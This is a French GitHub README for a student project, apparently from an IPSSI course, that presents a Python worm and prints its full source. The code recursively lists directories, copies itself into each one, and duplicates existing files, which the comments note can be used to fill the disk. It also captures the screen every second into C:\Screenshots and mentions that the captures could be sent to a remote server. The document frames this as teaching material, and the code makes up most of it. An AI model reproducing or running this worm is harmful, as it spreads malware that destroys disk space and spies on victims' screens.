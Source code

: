 # Vers-Python-IPSSI
<!-- Image centrée -->

<div align="center">

![CAPTURE](https://zupimages.net/up/22/48/cf4u.png)

</div>

<!-- --------------------------- -->

**Vers-Python-IPSSI** a été réalisé dans le cadre pédagogique de l'IPSSI avec un projet sur 1,5 jours. 

>Un ver informatique est un logiciel malveillant qui se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique comme Internet

# Prérequis
- Visual studio code

- Python3

- Connaissances basique / intermédiaire en Python

- Il faut au préalable mettre en place un répertoire de test et renseigner son chemin absolu dans la variable ```attack_directory```, en fin de code.

Il est recommandé d'exécuter ce programme dans un environnement virtuel, il est possible d'en mettre un en place à l'aide des logiciels suivants : 
- Virtualbox --> Sur une VM Windows / Linux
- VMWare workstation pro --> Sur une VM Windows / Linux
- ...

# Description du projet

### Dépendances

Le projet nécessite l'installation de dépendances Python, ces dernières sont disponibles dans le fichier ```requirements.txt```.

```
pip install -r requirements.txt
```

>Il sera également nécessaire de relancer l'interpréteur de code afin de prendre en compte l'installation.

### Architecture du projet 

Le projet repose sur 1 fichiers Python : 

- ```vers.pyw``` --> Qui contient le code du vers (exécutable avec un double clic comme un .EXE, pour tester)

### Fonctionnement du projet

Le projet déroule en plusieurs étapes :

1) Exécution du code par la victime

2) Le vers va alors **analyser le système** (répertoires / sous répertoires données )

3) Le vers **va alors se répliquer dans les répertoires cibles** de la victime

4) Le vers va prendre des screenshots chaques secondes et les stocker dans C:\Screenshots 

### Mise en réseau
Ce projet se déroule entièrement en **local**.

# Avancement du projet

- [x] Mise en place de l'initialisation du vers
- [x] Mise en place de l'auto-réplication du vers
- [x] Mise en place de l'automatisation de captures par le vers ( le vers va prendre des captures d'écran et les stocker dans C:\Screenshots (pour besoins des tests, il est possible d'envoyer les screenshots sur un serveur distant) )

# Mise en place de l'environement de travail

Il est conseillé, pour travailler dans de bonnes conditions, d’ouvrir un **répertoire de travail** ( sur le bureau ou autre ) sur Visual Studio Code

Une fois le répertoire créé, dans visual studio code il faut cliquer sur ```Fichier``` → ```Ouvrir le dossier```

Une fois cette étape réalisée il suffit d'importer les fichiers .py dans le répertoire de travail et l'exécution est désormait possible

# Explications sur le code

## Fonctions

Les fonctions sont toutes dans une classe, appelée ```Vers```, les fonctions en son sein permettent :
- Fonction ```__init__``` = d'initialiser le vers
  - De définir où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
  - De donner la possibilité de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
  - De définir le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire

- Fonction ```lister_repertoires``` = d'analyser le système
  - Cette partie va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 

- Fonction ```creation_vers``` = Permet de répliquer le ver dans les répertoires cibles.

- Fonction ```copier_fichiers_existants``` = Permet de dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération.

- Fonction ```create_directory``` = Permet de créer un répertoire dans le disque C:\ ( nécessite les droits d'admin )

- Fonction ```screenshots``` = Permet de prendre une capture d'écran toutes les secondes ( le time.sleep(1) permet de définir le nombre de secondes d'intervalles )

- Fonction ```start_vers``` = Permet d'appeler toutes les fonctions créées précédemment

```python
class Vers:
        #Initialisation 
        def __init__(classVers, path=None, repertoire_cible=None, replication=None):
            # Définit où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
            if isinstance(path, type(None)):
                classVers.path="/"
            else:
                classVers.path = path
            # Possibilitée de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
            if isinstance(repertoire_cible, type(None)):
                classVers.repertoire_cible=[]
            else:
                classVers.repertoire_cible = repertoire_cible
            # Définit le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire
            if isinstance(repertoire_cible, type(None)):
                classVers.replication = 10
            else:
                classVers.replication = replication

            # Prendre le chemin absolu
            classVers.own_path = os.path.realpath(__file__)
        # Cette fonction va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 
        def lister_repertoires(classVers, path):
            classVers.repertoire_cible.append(path)
            fichier_dans_le_repertoire = os.listdir(path)

            for file in fichier_dans_le_repertoire:
                # Évite les répertoires / fichiers cachés
                if not file.startswith('.'):
                    # Prends le PATH complet
                    path_absolu = os.path.join(path, file)
                    print(path_absolu)

                    if os.path.isdir(path_absolu):
                        classVers.lister_repertoires(path_absolu)
                    else:
                        pass
        #Fonction de création du vers
        # Permet de répliquer le ver dans les répertoires cibles.
        def creation_vers(classVers):
            for directory in classVers.repertoire_cible:
                destination = os.path.join(directory, "vers.py")
                # Copie le script dans le nouveau répertoire avec un noms similaires
                shutil.copyfile(classVers.own_path, destination)

        def copier_fichiers_existants(classVers):
            # La méthode suivante sera utilisée pour dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération. 
            # Il est possible de mettre un grand nombre pour que le disque dur soit plein.
            for directory in classVers.repertoire_cible:
                file_list_in_dir = os.listdir(directory)
                for file in file_list_in_dir:
                    abs_path = os.path.join(directory, file)
                    if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                        source = abs_path
                        for i in range(classVers.replication):
                            destination = os.path.join(directory,(file+str(i)))
                            shutil.copyfile(source, destination)
        #Créer un répertoire "Screenshot" dans C:\
        def create_directory(classVers):
            repertoire_parent = "C:\\"
            repertoire_a_creer = "Screenshots"
            classVers.fullpath_directory = os.path.join(repertoire_parent, repertoire_a_creer)
            if not os.path.exists(classVers.fullpath_directory):
                os.mkdir(classVers.fullpath_directory)
        #Captures saves dans le répertoire "Screenshot" dans C:\, incrémentées par 1
        def screenshots(classVers):
            i=0
            while True:
                screenshot = ImageGrab.grab()
                filename = (os.path.join(classVers.fullpath_directory, "Screenshot"+str(i+1)+".png"))
                screenshot.save(filename) 
                time.sleep(1)
                i=i+1
        #Fonction de lancement de toutes les fonctions du vers
        def start_vers(classVers):
            classVers.lister_repertoires(classVers.path)
            classVers.creation_vers()
            classVers.copier_fichiers_existants()
            classVers.create_directory()
            classVers.screenshots()

 ```

## Traitement

Cette partie permet de définir le PATH à attaquer et d'appeler la fonction qui lance toutes les fonctions sur le PATH donné.

```python
if __name__=="__main__":
    attack_directory = os.path.abspath(r"C:\Users\ADM_VM01\Desktop\TEST FOLDER")
    VersFinal = Vers(path=attack_directory)
    VersFinal.start_vers()
 ```
